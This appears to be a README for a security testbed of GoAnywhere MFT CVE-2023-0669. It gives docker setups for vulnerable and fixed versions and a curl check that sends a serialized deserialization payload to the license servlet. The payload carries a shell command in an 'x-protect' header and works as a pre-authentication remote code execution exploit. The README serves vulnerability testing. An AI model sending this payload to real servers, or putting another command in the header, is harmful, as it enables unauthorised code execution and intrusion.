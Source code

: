 # GoAnywhere MFT CVE-2023-0669

## Description of Vulnerability

GoAnywhere MFT RCE vulnerability CVE-2023-0669.

GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to
deserializing an arbitrary attacker-controlled object.

All versions prior to 7.1.1 are affected. Update GoAnywhere MFT to a fixed version, i.e. 7.1.2 or later

## Launch Testbed

### Vulnerable setup

1. Pull the image

```sh
docker pull kutzhanov/goanywhere:6.8.6
```

2. Start the container

```sh
docker run --rm --publish 38000:8000 kutzhanov/goanywhere:6.8.6
```

2. The instance will be available on [http://localhost:38000](http://localhost:38000)
3. Complete the setup by providing a license and creating the administrator account. You can get a trial license from [https://www.goanywhere.com/trial](https://www.goanywhere.com/trial).



### Non-vulnerable setup

Repeat the process with a fixed version:

```sh
docker pull helpsystems/goanywhere-mft:7.1.3
docker run --rm --publish 38000:8000 helpsystems/goanywhere-mft:7.1.3





## Vulnerability Test

You can use the following command to check whether the instance is vulnerable or not

```
curl -s -H 'x-protect: echo goanywhere_vulnerability' --data-binary 'bundle=Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1HW4WJiz4uaVBu7hXm_Eag15IpIWgojFy4hst8-q9YMms8Omq5lbdLabUHRcJAd6rLu6QrPLepYXQgGfMi_Qmj0qf5vXLfSX20cSBT_IEBlzzBR3lq_hiqrAfmZZCV3Y1HeMPpaMsmzL5zM1VTMX-5Pi5JGKMJ2Al2BZVZUUZQNqrcnueMVl1ZNhGMJ8eSFBCb4WGaNrhfgQ3sWUW3_A_ln_XwLi8z6XCOT5sJmFYZXBC4vYtY4leatX_o__lJHYPuA_TEmuEmEhIccj5Ou2xOvazmw9oXVUbM0vkPsb1UDyyTF0Ee85W0CUUCzb3rouvUDFaOZZLe08Z_Km2LgSq9Wr3fKojx_UevkOkOfwfiPlnJcQTRr45useRtOlHrJpP1iWSLi2vwK8bojMdCWzF13H8MmDjrJBCbcbChsXQkNcAJqkYa3y2SZXkwISRigFVLRnjDbyQLqLAzE0inCSf7NF9abKU5ZW8yMgF6NT802MJCz0gRJD6zLbFZSBYfGlzFJmu9-ZWYVywkwmu3xQrrA_tCRdqvd5zeHd3CgWOzBjOg55_iBNcPZOPYhMXD1ZEpPyG0CQpJfIUiblo4gGV0op-Mb2z5HIuvJ-l_YCxoYJi5RCdtgGoSmIo9wN59S0PeI6LI69EsoquDh7EA9Z7pc6XGk6rrbsJoFcV-lp_73dwmOH1U6pZRcEeMYgrB3n_R0BsoYHTika_iGEmmYv1CgBDfMlmVdQbtefAwh_AcJ9pyNACTwWdXQ0xmto3YYLbizDnmZ--NeiQ_534fTrGfjcIsbLgEnHcpG7Fwng72m7pHVy5LpurnRJXJyFBJW9IUF0vwH_UDZtAfeBK4kMbkuJrCTtQdyCks5SjfQWTArKeNGiKbGWReNhOnUnK8A2sxiYtvqlUi01mfOIfoc-9Lp6wXEBrNzWHH0zPWu4SNQmhR-JwmvFeIErraf83vz0_sRoU7IcSqKEF5zFjFF8n1oWqwBP5a3s_fKgbQ_UA74vmFh5cc_tlpBXS1oG8_EU5GAFI-woAA0Mlgkwmo-fGH1w1wB1LSOzgiT7r4QKDko55Timnwpk_D4RmXesvtu49-xyXcg4sL6NG5ujC6o5kKbTrwi7Vp8hjEx1v6nXeMfUbuWjYicH-ZIE_P_SMevvDUOQm3UZ67MbmdkReIR32TN_88A4J5dKN0QC08HLkYNSjsRp7XyXbSi5dZp3eQ6zkW9KuYU-S-NSBC9pV4arvsZXcwtWRTjweK49JIIgLMayI4y9TOjhg-LiwwzIlTY_t0KuzHSIYSw82LxmOeDhdQUC-sSOeV1G2sR095x3NDmfEfdvduTceU9cD3ofEFtedX5Z77aGFoVhdoG_hOjnYnaoaWYPe7JChYE0TZZfu3V7HF57X0cwoYYPDP6XzSf6kmxEWDoenYsPTmY_Evhqwp3Fhzko8_G-UR2tNH9JjIoouCEd8o8Gy7gnye2_u6wzCBuChv1yEug0miW8nSCQk69oHWeti94h1toBecBt70m8ySDHgL80vs4n5qHK2Mjv_eb3a5UrajOObvfoNMg_K85EudKBrdgW6bEV5KsZhFBDpDnxA7X8CHEHZiK4iDCFUCmSMCXQz7KqkHrcWh8l1ut7IPoxuiRhdI5wuNSw-xVmVwM1kJo5ahlOZcsARCNZ9NcAjcqojMDZjgkPo7lt-5Lrl2gPHg80YkNsfdB8Ao91vcZ6UuJ45ERB1G8V7TwxCMsHU8h8FFet1zb55rcBE-YJ5rvzaXif3OOFiS4MnA0LDszZkFJ4gW2SIMban79bz38yBnEz-au5l2SwkG7tY3DiKobiIz6ZJjOzVj2jAT7MsCpB8XNl8tCMYJHWErFrExXbosh-YvXoU8HCN_XALqBSZJyffqKu0iAYcyxc35QQl55ll-IybJU3Gu4LPGT6HXPlK3Hepmdd1ZhLzQG-adp465TzIDX-0YUK_Px-J0gmoW-kgUiGAVKrHIS4Qh-1E80u7GI_WUZTXSE7sgKUX-2qEUj6reo7Kf_4c_CZrwkA4RtoQrQMCs4Bs7dAft1eAqb9O-SDcW8kShwpUow3nz6PFKkdZ4SjYTNUjANTJT_7Yvzu-nHDPpEyriuZ4zcGKTadRgL2bbv1MwcTzJ1iCGMGXNk-sMiqOpqGdW_tAbfrGAuAjSiK5vCK4tO2xjR9qlMu9mzvC6FWXMlgoDFWbrXDSLUWWpgthJssAzniuX1iuGBlWmC7MzOCLQYyHKTIGDysqW4BgHQabqeXtqPoCLUCcCY8tlaACSFFe9ZQcQXgTHwClL5_TI2-9Cn5wIz28o-krld22hZ5KUWvXcW_278n6TxUJZPArM-KweuxdkzFYHjg1i8eZygMFz17MA9rUSTJzG7qvyXR_OIvI9EcGVP91noBQ2pN9zqFq7o81DRUmrNbNL1I4GPwK4kkLJVOJ1o6Hgw-zXmjeMveQII-aRzh-O2zZ9dpBJ8Yne7nWgeq1XAxW3A0lkqKr5hRbJD8najEI1xWvUEBHbPLD3oy4FGrs2Pegj7JlsGIwcmsQ8S_3bcp9ycdpNWXR0qgku3ltIZdFfW3Tnm-NFbfvkIRqmk8CaYsX2NlXGCJBLSt5HHioXDyUn1dRKvTpLx8aw41HqqGAACACvSWo0VLi4uXvxUZTgeA7q6BzH7KxptrTX62rBrU6R2ul5cgjTEYnakqcNUyJDjbxHBw1wY3k75erwfFj_pc6pE0PlB9zqIROk0yOiy2OWpg4KCAjryY1U0eOjnZVsoWjEuBT7Uvu0_9h04yZqToxRfu0WIODBLGJZ0lpx2bXtcaZPRFNwOFAeGHNpSY-ZO48bQR2Eo8kbB62w5DU6pKlFzCzK-bOzVvYUYDkYoQUSclOkW96M0hQ5DvJggB14AuXv0n4jsC1j_z4Yg1oeVnSbDA1PuGcAq8TovQX1KzpSHORoQFEhcclGxhc5-6kPt_cqImHd2C2UpYhVGEff3d2ShRzOETbELCR9w5OLY5EB4AxIOB9K4UUB-iqusjEmTYogjUUPhrHz1Dl88DD-W_QIR1fSpKDlCKWZXLWueZKXEFTKTIrWltCqbANJMPx5ww4Yo7jau6jZOPZWaZg_rApAJ4GhISBNRNUaRMUwRuKHrIaXBamJfkZXZNBJaUyv5uFXkCqkKlotr3JpOe8kBeFq_h-mmgM5G2pCK1LvnpIzXqMe1vPuR7om0ar4hRpV8aBlmhG9M7N2NQS50c-d96qKQQNDT_RgKslJfEPl4LuBie9IFlZ9qbpyq25XadMoDvDjuddAGb2jouTI8t1wXoK_fGMzUlPa7_Fq1yJqaeLF4gvoqZcEdocc0BZuM_8YqQGPhPRtxJ2wfnJ-9rdz58RNX8KoUnPEo7Y_GU5MqcmIsIqWgLkLHbFTytO9Xf2v90LKZoJy6vxfuD0C3ocGZ4syFrus4zZ0ydMU8L0b5A4Z9c4U7LE4kn79ujOBeseZDE1nAr2RL1c9ReAjJ6CLqpPYTihhLHglog64HMcxTGj1_fEnrNB53mzD0cw1UB5_kRE-Yr_JY0PRvYYGVfKfaXeklUVn3Rb-npVABFVQ6XrCN1dUFOhy4rUe3mZ3kyAXvjpXiRrkRnbKAk1c2ynLrIDetbNoQQGdIouuBEDX9NJIE9zKAttSQBpC5Xkoeu68oQcTU3IW_N848fuGIUsUl4oqO1wjNuG4TTBCCA82gu269_LCg5jB9JEa-DlhPzRwoGhJ4muc1ThgsINoLcevNu5iwP-ebUQfolW6ZdR3i12Eh9bZi3yiE7Sieb-dXx_qm5IrdlY0SZWKNC8OqlxVUzLaseMBE3kPrT-Dz6ClJXewCEU1vGYzPvKggCgg5clwEwsjGsOq7XYLGRJ9f5pMKZkcfO6-v4FpCk3fjHh0NDDZ8EE3i74a5fh1wVKsR2EJPpl6bEpWhMUDPtcavuTP7xbJC1sFDuLzoSE6qVXLbZFWPS6VMCEzkJ1-FxVsVE_WE4v72iygfLGZaOFgzyVOSEZAm8GThgHsxrKTb2_v5JcWLuock1Z6uva8P13htuNHACPZ3yhkXbuJ2b-6ucy2ZLurigtEDsNsmXsybmWdpS4vA6gnPDr5iSxVXz4BLyW0ShEbKLls_eJ_pH-y1b9Hw0KVVbcE05-bckumz7H-LwhcGVBsi2SKpoGSugH6gbX_fqrraMB0aC-0v6JIZ8WUNa7ElaMfJsE6XstjaE7KjXFHuhyQKeHgWKjm1oV8yLW7vRuqhs5RfWV3E09y2yASv_DY1WxMotFAqOHhz-zt3CiZCXQkPsjly3uHDKLrIjMYrHFvPPmQ8jD6AWiupBSVUi9yFnSFeZq8Ws3-Ki8JQEuWtMhCOsF5nBIb9NUifxO6sK2hUlbBVnhGV1PAz1FZ0tMHhFg7AVeviqUlePVASRtUQ-HmW9qPqH1UXiwysQAprepW6tHuExtYchRcla7ApOqUcQl1oCdQl6tsvn3ewlMTHvAyhUMjeap3yHlzUro-kFf-D285ircmCHRvoXgySqqZjO_8hkEcgBEWSp5Yn8xNZmw9PEthJzvAL2F6UfY58G_WrSIj5B-6GgHdgDVSzLiYSh_lrMFEd4QBtVYLz9KWlY5jjXxmN50RjWGhf2qx0iGrFC2ZnAwN6RxrB07Gl-nI2rAYVWoa_oIz_3s2rI7ll6fvzmdwKrSPNdcnG3MYVvTo8gAHrvhgFUje71_EgabRgOQv6XFCX6Vhsh9crycXjtISPU8ZWnf9tSQh-nUBplB2Go2WSmmLk1Rhu0deMsChn6dI7OQ-ed-36C_on1CY5bSuEkpJxxsNrcZTdmRG3KPlwHVcZ1kfFKlSTnFPjoOq1VLgLGuaOJFFiTerU2tbfj8rbgZbYOeZZToik7OirRjX_oTyKwHGQq5Y0d_W1Whwr8i5xK-V4HsdDOAOPv7NzL8-yxnL73kWP2357B_8yvUxHKjZ_ynyr--_ueBVZbOwnt4oBpbtsLh7_A6vo0MdBs2HpRRq8USpxlgN_s_2DNFRrxejgphOPDeHT-_mh7ey3lSZNMt3NU2M7lPWzWsffu5R5PXY9BxJT0PsUAgJS3i-sB5D4Fg7e4WiF83UroEYaz9mM0B-7VQ7hkqBgPEiDH2rZpUyhsG51TlYSbzb46g41vXdFpygqntOlEgBYkVbLwN3fIM9s2RL4908QD8o-ePuO-CnFL5KU5Yh7IcBx8a2FovJf07J7IoShuB2grZ7Uq8hwa5OJjZ0yN1pz1KsdT_OKONiiDiWvf67QRkrogsxA2PbFC4Qhr1ZwOnEO8fhZTFx_fdt5_z7RkjfObiDBNqGGY5iBnjxinzh67mODT_vohU7L3gPCkVnqcU2zUbiBsT-Xu0HGyQOPpBp5wS2QHln6GdmTkmARnSa4Mc1CU0x4YzmAoTU4v8xLCtucHHFHrYMB_MFJg_2rM_XxJVKjnU2ej7BFSbnyc_1XE12z9ca6dYywmwtTFtHSpJf-70SBU_nebcnTcUXMp2JTWdRUgGScybrwM4wGSYUq7THJqm297dQ9fJ9GjnWLOK3JQ7K2GjVWWmXKrlYlwKgx_3XDUUYErlZAw13_iQXLMZOUteWthVndxp9STpcQ' http://127.0.0.1:38000/goanywhere/lic/accept
```


A vulnerable instance will reply with the following message:

```
goanywhere_vulnerability
```



while a safe instance will reply with status code 400 and the following body:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en"><head id="j_id_4"><link type="text/css" rel="stylesheet" href="/goanywhere/javax.faces.resource/theme.css.xhtml?ln=primefaces-aristo" />
......
```
